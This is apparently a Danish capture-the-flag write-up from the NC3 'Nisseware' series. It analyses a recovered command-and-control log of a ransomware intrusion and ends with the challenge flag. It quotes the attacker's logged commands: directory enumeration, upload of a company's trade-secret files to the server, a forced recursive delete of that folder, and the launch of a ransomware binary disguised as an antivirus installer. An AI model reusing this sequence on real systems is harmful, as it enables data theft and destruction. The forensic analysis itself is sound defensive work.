CMD: fsutil fsinfo drives (status 0)
CMD: ls (status 0)
CMD: ls blueprints_legetøj (status 0)
CMD: ls fælles_installationsfiler (status 0)
CMD: ls produkt_salg (status 0)
CMD: ls forretningshemmeligheder (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\CipherLink.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\CyberWhisper.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\EchoShade.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\NeuralNemesis.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\PhantomPulse.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\ShadowGrip.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\SoulSpecter.jpeg (status 0)
UPLOAD: C:\Users\Alf\Documents\forretningshemmeligheder\produkt_katalog.pdf (status 0)
CMD: rm C:\Users\Alf\Documents\forretningshemmeligheder -r -force (status 0)
CMD: ls (status 0)
CMD: ls C:\Users\Alf\Desktop (status 0)
CMD: ls C:\Users\Alf (status 0)
DOWNLOAD: C:\Users\Alf\Desktop\AntiVirusInstaller.exe (status 0 - File download successful)
CMD: ls C:\Users\Alf\Desktop (status 0)
CMD: &C:\Users\Alf\Desktop\AntiVirusInstaller.exe (status 0)
CMD: ls C:\Users\Alf\Desktop (status 0)
CMD: Get-Process mshta | Format-List * (status 0)
kill
```

Som forventet ser vi først en besked med et ID og et acknowledgement på samme ID, og herefter har `N1ss3b4nd3n` sendt en række kommandoer for at få info om systemet og enumerere diverse relevante filer. De kører `ls forretningshemmeligheder` med følgende output:

```
    Directory: C:\Users\Alf\Documents\forretningshemmeligheder

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        23-11-2023     07:59         257326 CipherLink.jpeg
-a----        23-11-2023     07:59         311406 CyberWhisper.jpeg
-a----        23-11-2023     07:59         274118 EchoShade.jpeg
-a----        23-11-2023     07:59         270593 NeuralNemesis.jpeg
-a----        23-11-2023     07:59         241265 PhantomPulse.jpeg
-a----        24-11-2023     01:53        2024761 produkt_katalog.pdf
-a----        23-11-2023     07:59         189213 ShadowGrip.jpeg
-a----        23-11-2023     07:59         267387 SoulSpecter.jpeg
```

og med det samme herefter begynder de at uploade hver af disse filer til serveren, hvorefter de sletter dem alle fra maskinen med

```console
$ rm C:\Users\Alf\Documents\forretningshemmeligheder -r -force
```

Kort efter ser vi et download til stien `C:\Users\Alf\Desktop\AntiVirusInstaller.exe`, som herefter køres med `&C:\Users\Alf\Desktop\AntiVirusInstaller.exe` - det er super interessant, vi har nok fundet selve ransomwaren her, og umiddelbart prøver de at skjule den ved at navngive den som en antivirus installer. Aktøren kører efterfølgende en `ls C:\Users\Alf\Desktop`, og her er output følgende:

```
    Directory: C:\Users\Alf\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        28-11-2023     03:38           6323 instructions.hta
-a----        22-11-2023     16:42           2232 Notion.lnk
-a----        22-11-2023     16:38           2204 Slack.lnk
```

Altså ser det både ud til, at ransomwaren har slettet sig selv, og der ligger nu en `instructions.hta`-fil - mon ikke det er ransomnoten!
`HTA`-filer er `HTML Applikationer`, et Windows-program, hvor UIen er defineret i HTML med support for `JScript` (ikke `JavaScript`!) og `VBScript`.
Det vil være en simpel måde at lave en visuel ransomnote på, der kan åbnes automatisk, når ransomwaren er færdig.

Efterfølgende tjekker de i hvert fald, om der kører en `mshta`-process, altså den process, `HTA`-filer åbnes af. Sidst sendes en `kill` action og forbindelsen dræbes.

Med vores script har vi fået extracted alle uploadede filer, så dem tager vi et kig på, først på alle billederne:


Hmm, det ser noget sketchy ud, måske `Legetøj"Я"Os` har gang i lidt andet end legetøjsproduktion...
Det skal vi dog ikke blande os i (hvis det er lovligt), og vi fortsætter med at fokusere på sidste fil, PDFen.
Det viser sig at være et produktkatalog over lige præcis de produkter, vi har set billeder af, og på første side, har vi flaget:



Sådan! Vi har påvist eksfiltrering af virksomhedens data og fået genskabt alt det, de fik slettet!

Deres resterende data er dog stadig krypteret og utilgængelig, men det er lykkedes os at genskabe selve ransomwaren fra netværkstrafikken, og den skal analyseres!
Fortsæt efterforskningen i [Nisseware: Dropper](../nisseware-dropper/) og [Nisseware: Encryption](../nisseware-encryption/)!

Eller gå efter gruppen selv i [Nisseware: OSINT](../nisseware-osint/) og [Nisseware: Infrastructure](../nisseware-infrastructure/),
så vi kan finde deres server og få dem lukket ned, inden de sælger eller leaker virksomhedens forretningshemmeligheder!

**Flag**

`NC3{k0mpr0m1tt3r3nd3_f0rr3tn1ng5h3mm3l1gh3d3r}`
